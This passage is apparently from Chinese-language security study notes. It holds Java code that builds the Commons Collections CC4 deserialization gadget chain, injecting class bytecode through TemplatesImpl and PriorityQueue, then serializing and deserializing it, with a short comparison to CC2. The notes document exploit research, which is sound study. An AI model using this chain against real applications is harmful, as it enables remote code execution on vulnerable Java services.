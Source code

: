         TemplatesImpl templates = new TemplatesImpl();
        Class TemplateClass = templates.getClass();
        Field name = TemplateClass.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates, "123");

        Field bytecodes = TemplateClass.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        byte[] code = Files.readAllBytes(Paths.get("D:\\code-audit\\CC3\\target\\classes\\Test.class"));
        byte[][] codes = {code};
        bytecodes.set(templates,codes);

        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates});

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                instantiateTransformer,
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        TransformingComparator transformingComparator = new TransformingComparator<>(chainedTransformer);
        PriorityQueue<Object> priorityQueue = new PriorityQueue<>(transformingComparator);

        Class priorityQueueClass = priorityQueue.getClass();
        Field size = priorityQueueClass.getDeclaredField("size");
        size.setAccessible(true);
        size.set(priorityQueue, 2);

        serialize(priorityQueue);
        unserialize("ser.bin");

    }


    public static void serialize(Object object) throws Exception {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(object);
    }

    //反序列化方法
    public static void unserialize(String filename) throws Exception {
        ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream(filename));
        objectInputStream.readObject();
    }

CC2和CC4几乎是一模一样的，只不过CC4利用的是chainedTransformer，而CC2利用的是InvokerTransformer，
最后再add添加size的时候，把templates传进去

<img width="2559" height="1527" alt="image" src="https://github.com/user-attachments/assets/deca82f3-530c-4910-869d-5c1a30ac76d7" />

这样就少了自定义添加transformers数组这一步，也没有用到ChainedTransformer
